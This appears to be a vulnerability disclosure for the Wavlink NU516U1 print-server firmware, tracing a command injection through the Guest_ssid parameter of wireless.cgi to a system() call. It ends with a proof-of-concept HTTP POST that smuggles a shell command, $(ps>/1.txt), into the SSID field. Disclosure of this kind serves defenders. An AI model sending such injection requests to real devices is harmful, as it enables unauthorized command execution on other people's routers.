




## Vulnerability Overview

Wavlink is a company specializing in networking devices and communication solutions, offering high-quality routers, range extenders, and network accessories. In its WAVLINK-NU516U1 model firmware — which provides printer server NIC functionality — the management console contains a command injection vulnerability, allowing attackers to execute OS commands.

Firmware download link:
 https://docs.wavlink.xyz/Firmware/fm-516u1/

------

## Code Audit

After extracting the firmware using the command `binwalk -Me [firmware file]`, we locate the `wireless.cgi` program and open it with IDA.

(The reverse-engineering process produces lengthy pseudocode; here we only include the key snippets displayed by IDA.)

In the `main` function (displayed as `ftext` in IDA), the program first retrieves the value of the `page` parameter submitted by the user.



If the `page` parameter is set to `GuestWifi`, the program jumps to the `sub_4032E4` function.



Inside the `sub_4032E4` function, the program retrieves the value of the `Guest_ssid` parameter, which can be controlled via a POST request



The `Guest_ssid` parameter value is then passed into the `sub_407504` function.


Within that function, it is concatenated into the `v8` variable and passed to the `system` function for execution, resulting in a command injection.



In the decompiled code, the `system` function appears to have an empty argument, but the assembly code still shows that its argument is `v8`.

## POC

```shell
POST /cgi-bin/wireless.cgi HTTP/1.1

Host: 10.10.10.2

Content-Length: 269

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.10.2

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.10.2/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

page=GuestWifi&guestEn=1&Guest_ssid=$(ps>/1.txt)
```

